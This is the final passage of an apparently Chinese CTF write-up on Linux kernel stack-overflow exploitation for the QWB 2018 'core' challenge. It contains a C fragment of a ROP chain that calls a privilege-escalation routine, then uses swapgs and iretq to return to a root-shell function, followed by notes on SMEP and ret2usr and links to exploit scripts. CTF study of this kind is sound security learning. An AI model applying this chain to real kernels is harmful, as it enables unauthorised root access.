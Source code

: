 ```
    *(ptr + i++) = rbp;
    *(ptr + i++) = (uint64_t) privilege_escalate;
    *(ptr + i++) = swapgs_p_ret;
    *(ptr + i++) = 0;
    *(ptr + i++) = iretq_ret;
    *(ptr + i++) = (uint64_t) root_shell;
    *(ptr + i++) = user_cs;
    *(ptr + i++) = user_rflags;
    *(ptr + i++) = user_sp;
    *(ptr + i++) = user_ss;
```



## 小结

如果没有开始smep的话，在用户空间执行代码要比rop实现功能相对来说会简单一些。

内核栈溢出需要注意的是要返回到用户空间，且不能破坏数据，内核一崩溃整个系统就结束了。返回到用户空间的`iretq`指令弹出寄存器的顺序让我纠结了一段时间，最后还是看手册解决了问题，官方手册还是很关键。

相关文件以及脚本[链接](https://github.com/ray-cp/linux_kernel_pwn/tree/master/qwb2018-core)。



## 链接
1. [proc_create函数内幕初探](https://www.cnblogs.com/ck1020/p/7475729.html)
1. [kernel pwn（0）：入门&amp;ret2usr](https://www.anquanke.com/post/id/172216#h2-7)
1. [Kernel-ROP](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_rop-zh/)